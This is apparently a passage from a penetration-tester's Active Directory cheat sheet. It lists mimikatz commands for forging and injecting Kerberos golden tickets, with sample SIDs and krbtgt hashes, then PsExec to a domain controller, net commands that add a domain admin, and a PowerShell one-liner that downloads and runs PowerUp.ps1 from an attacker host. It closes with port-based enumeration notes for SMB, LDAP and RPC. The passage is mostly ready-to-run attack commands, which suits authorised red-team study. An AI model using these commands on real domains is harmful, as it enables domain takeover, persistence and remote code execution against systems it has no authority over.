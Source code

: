 
```
# Create golden ticket (write to file in this case)
mimikatz # kerberos::purge
mimikatz # kerberos::golden /user:michael /domain:http://corp.com /sid:S-1-5-21-424454709-3473652537-2193885599 /krbtgt:4199649f577fc4f17791600916044e88 /ticket:golden
```

```
# Super golden ticket
kerberos::golden /user:<username> /domain:<domain> /sid:S-1-5-21-424564709-3573252527-2093888899 /krbtgt:4199649f577fc4f18891600906044e88 /ticket:<ticket-name> /endin:2147483647
```

```
# Inject ticket to memory
mimikatz # kerberos::ptt golden
# PsExec to DC
PsExec64.exe <dc-name> cmd.exe
```

Net user/group
```
# Adding a domain admin
net user <username> <password> /add /domain
net group "domain admins" <username> /add /domain
```


PowerUp.ps1
```
powershell -c 'IEX(New-Object Net.WebClient).downloadString("http://<attacker-ip>:<attacker-port>/powerup.ps1")'
Invoke-AllChecks
```

WinPEAS

SharpHound/BloodHound

bloodhound-python


[oletools](https://github.com/decalage2/oletools) for extracing VBA scripts from xlsm files.
```
olevba file.xlsm
```

## Methodology
- A machine is a Domain Controller if it has port 88 (kerberos). 

- If ports 139,445(SMB), 389(ldap) ,464 (kpasswd) are open so enumerating the services in this order (PhD Security's methodology)

- If port 135(msrpc) is open try to get the domain users using a tool called ``rpcclient``.

- If port 389(ldap) is open we can use ``ldapsearch`` to enumerate domain users as well.

- If anonymous access to ftp, smb is available check the FS, and try to get sensitive informations like GroupPolicies, password files, xml files etc.
